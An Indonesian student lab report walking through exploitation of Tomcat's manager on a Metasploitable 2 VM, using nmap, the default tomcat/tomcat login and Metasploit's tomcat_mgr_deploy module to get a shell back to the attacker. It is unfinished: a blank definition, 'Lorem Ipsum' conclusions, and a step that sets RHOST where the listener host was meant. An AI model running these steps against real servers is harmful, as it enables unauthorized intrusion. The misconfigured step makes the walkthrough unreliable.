
# **Tugas 5 PKSJ - Analisa Exploit dengan Metasploitable, Metasploit dan Nmap**


## Pendahuluan

Tugas ini dibuat untuk menyelesaikan Tugas 5 yaitu "Analisa Exploit dengan Metasploitable, Metasploit Nmap" pada matakuliah Perancangan Keamanan & Sistem Jaringan (PKSJ) Semester Ganjil 2016/2017, Teknik Informatika ITS, Surabaya
 
| NRP         | Nama                     |
|-------------|--------------------------|
| 5113100050  | Freddy Hermawan Y        |
| 5113100109  | Daniel Fablius           |
| 5113100113  | Muhamad Luthfie La Roeha |

## Dasar Teori

**1. Metasploit**

**Metasploit**  merupakan suatu tools yang digunakan untuk uji penetrasi. (https://www.rapid7.com/products/metasploit/)  

 **2. Metasploitable**

**Metasploitable**  adalah 

##Penggunaan Metasploit

Untuk penggunaan metasploit, pada Kali Linux sudah terinstall secara bawaan, dan untuk mengaksesnya dapat menggunakan perintah `msfconsole`  
![msfconsole](tugas5/14.PNG)

## Intelligence Gathering 

1. Untuk melihat vulnerable pada Metasploitable yang telah diinstal, kita dapat melihatnya dengan cara menampilkan port mana saja yang terbuka di Metasploitable. Ketikkan command berikut `nmap -O <IP Metasploitable>`  
FREDDY Screenshot
![Screenshot nmap](tugas5/123.PNG)

2. Berdasarkan informasi yang didapat ([disini](http://colesec.inventedtheinternet.com/hacking-apache-tomcat/)), Metasploitable 2 telah terinstall Apache Tomcat yang berjalan pada port **8180**.

3. Untuk mengecek salah satu vulnerability tomcat, coba akses <IP Metasploitable>:8180/manager/html. Lalu masuk dengan credential :
```
username : tomcat
password : tomcat
```

4. Jika berhasil, akan masuk ke halaman Application Deployer. Pada halaman ini, kita dapat membuat rute baru dengan mengupload file WAR (Web ARchive). 

5. Pada titik ini, kita dapat membuat backdoor/payload yang dapat diupload dengan jenis .WAR. Sehingga kita dapat masuk ke shell Komputer target. 

## Exploit Apache Tomcat Manager - Application Deployer

Metasploit dapat membuat Payload dan membuka akses ke komputer yang terexploit secara otomatis. Caranya :

1. Buka console Metasploit pada komputer Attacker, dengan cara mengetik `msfconsole`

2. Untuk menyerang sistem menggunakan vulnerability **Tomcat Manager - Application Deployer**, gunakan exploit berikut :
```
msf> use exploit/multi/http/tomcat_mgr_deploy
```
![Screenshot](tugas5/1.PNG)

3. Set `RHOST` dengan IP yang akan diexploit, dalam kasus ini, IP adalah IP milik Metasploitable. sebagai contoh 192.168.100.20. Set RHOST dengan cara :
```
msf exploit(tomcat_mgr_deploy) > set RHOST 192.168.100.20
```
![Screenshot](tugas5/1.PNG)

4. Set `RPORT` dengan port yang vulnerable untuk diserang, dalam kasus ini port yang dipakai adalah port **8180**. Set RPORT dengan cara :
```
msf exploit(tomcat_mgr_deploy) > set RPORT 8180
```
![Screenshot](tugas5/1.PNG)

5. Set `HttpUsername` dan `HttpPassword` agar Metasploit dapat masuk ke website tomcat. Set dengan cara :
```
msf exploit(tomcat_mgr_deploy) > set HttpUsername tomcat
msf exploit(tomcat_mgr_deploy) > set HttpPassword tomcat
```
![Screenshot](tugas5/4.PNG)

6. Set `PATH` yang vulnerable untuk diserang, yaitu /manager/html. Set dengan cara :
```
msf exploit(tomcat_mgr_deploy) > set PATH /manager/html
```
![Screenshot](tugas5/2.PNG)

7. Menggunakan target java universal untuk membuka tomcatnya, java universal ini karena base dari tomcat sendiri adalah java
```
msf exploit(tomcat_mgr_deploy) > show targets
msf exploit(tomcat_mgr_deploy) > set TARGET 1
```
![Screenshot](tugas5/3.PNG)

8. Mengeset ip dari host program Metasploit yang kita punya dan portnya yaitu 4444. ipnya nantinya akan diset sesuai dengan ip komputer yang digunakan untuk menyerang. sebagai contoh dalam kasus ini adalah 192.168.100.21
```
msf exploit(tomcat_mgr_deploy) > set RHOST 192.168.100.21
msf exploit(tomcat_mgr_deploy) > set LPORT 4444
```
![Screenshot](tugas5/5.PNG)

7. Ketik command `exploit` untuk menjalankan exploit menggunakan setting yang telah dilakukan sebelumnya.
```
msf exploit(tomcat_mgr_deploy) > exploit
```
![Screenshot](tugas5/5.PNG)

8. Jika berhasil, akan tampil hal berikut :
![Screenshot](tugas5/6.PNG)

9. Untuk memastikan bahwa kita berhasil masuk ke dalam Komputer target, lakukan command berikut :
![Screenshot](tugas5/7.PNG)

## Kesimpulan dan Saran

### Kesimpulan
1. Lorem Ipsum
2. Lorem Ipsum

### Saran
**Jangan menggunakan settingan user default Tomcat pada sistem yang dapat melakukan upload file** 

